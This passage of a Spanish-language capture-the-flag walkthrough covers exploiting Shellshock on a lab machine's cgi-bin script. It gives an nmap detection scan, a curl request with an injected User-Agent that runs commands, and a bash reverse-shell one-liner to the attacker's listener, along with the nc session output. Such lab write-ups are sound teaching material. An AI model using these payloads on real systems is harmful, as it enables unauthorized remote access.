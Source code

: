 Tenemos un script en la carperta `cgi-bin` por lo que enseguida se nos viene a la mente la posibilidad de que sea vulnerable a un ataque `Shell Shock`. Mediante la herramienta `nmap` vamos a comprobar si es vulnerable a este tipo de ataque

```bash
nmap --script http-shellshock --script-args uri=/cgi-bin/user.sh -p80 10.10.10.56
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-30 11:52 CET
Nmap scan report for 10.10.10.56
Host is up (0.038s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-shellshock: 
|   VULNERABLE:
|   HTTP Shellshock vulnerability
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2014-6271
|       This web application might be affected by the vulnerability known
|       as Shellshock. It seems the server is executing commands injected
|       via malicious HTTP headers.
|             
|     Disclosure date: 2014-09-24
|     References:
|       http://seclists.org/oss-sec/2014/q3/685
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-7169
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271
|_      http://www.openwall.com/lists/oss-security/2014/09/24/10

Nmap done: 1 IP address (1 host up) scanned in 0.54 seconds
```
Nmap nos revela que es vulnerable!! 

### Explotación Shell Shock Attack

* * *

La explotación de shell shock se da en la modificación del User-Agent al momento de enviar una petición web, esta cabecera se envía de la siguiente forma `User-Agent: () { :; };echo; <COMANDO A EJECUTAR>`.

```bash
curl -s -X GET "http://10.10.10.56/cgi-bin/user.sh" -H "User-Agent: () { :; };echo; /usr/bin/whoami"
shelly
```
Comprobamos que tenemos ejecución remota de comandos por lo que procedemos a ponernos en escucha en el puerto 443 y mediante la ejecución del siguiente oneliner podemos obtener una reverse shell con el usuario `shelly`

```bash
curl -s -X GET "http://10.10.10.56/cgi-bin/user.sh" -H "User-Agent: () { :; };echo; /bin/bash -i >& /dev/tcp/10.10.14.94/443 0>&1"
```
```bash
sudo nc -nlvp 443
[sudo] password for yorch: 
listening on [any] 443 ...
connect to [10.10.14.94] from (UNKNOWN) [10.10.10.56] 48532
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$ whoami
whoami
shelly
shelly@Shocker:/usr/lib/cgi-bin$ 

```
